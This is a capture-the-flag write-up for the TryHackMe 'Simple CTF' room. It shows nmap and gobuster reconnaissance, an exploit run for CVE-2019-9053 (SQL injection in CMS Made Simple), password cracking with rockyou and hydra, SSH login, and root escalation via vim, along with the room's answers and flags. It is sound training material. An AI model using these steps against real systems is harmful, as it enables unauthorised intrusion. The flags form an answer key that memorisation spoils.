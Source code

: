 
![[logo.png|875]]

Link: https://tryhackme.com/r/room/easyctf

# Task 1 - Simple CTF 


1. **How many services are running under port 1000?**
```bash
sudo nmap -sS -p- 10.10.76.159 -oN simplectf.txt -T4
```

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 417.03 seconds
```

>2 ports open under port 1000

2. **What is running on the higher port?**

```bash
sudo nmap -A -p2222 10.10.76.159 
```

```bash
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

>SSH

Navigate to http://10.10.76.159/ and its nothing special here.

![[img-1.png]]

Use `gobuster` for directory scanning and I've found a directory called `/simple`.

![[img-2.png]]

Navigate to http://10.10.76.159/simple and scroll to the bottom. Noticed that it's using CMS Made Simple with version 2.2.8

![[img-3.png]]

![[img-4.png]]

Search for vulnerability using `searchsploit`.

![[img-5.png]]


3. **What's the CVE you're using against the application?**

![[img-6.png]]
>CVE-2019-9053

4. **To what kind of vulnerability is the application vulnerable?**
>SQLi

5. **What's the password?**
```bash
 python exploit.py -u http://10.10.76.159/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![[img-8.png]]

It keep crashing but luckily we got the username so I decided to crack it using hydra.

![[img-7.png]]
>secret


6. Where can you login with the details obtained?

![[img-9.png]]
>ssh

7. What's the user flag?
>G00d j0b, keep up!

8. Is there any other user in the home directory? What's its name?
```ssh
$ pwd
/home/mitch
$ cd /home
$ ls
mitch  sunbath
```
>sunbath

9. What can you leverage to spawn a privileged shell?
![[img-10.png]]
>vim

10. What's the root flag?
```ssh
# cd /root
# pwd
/root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```
>W3ll d0n3. You made it!
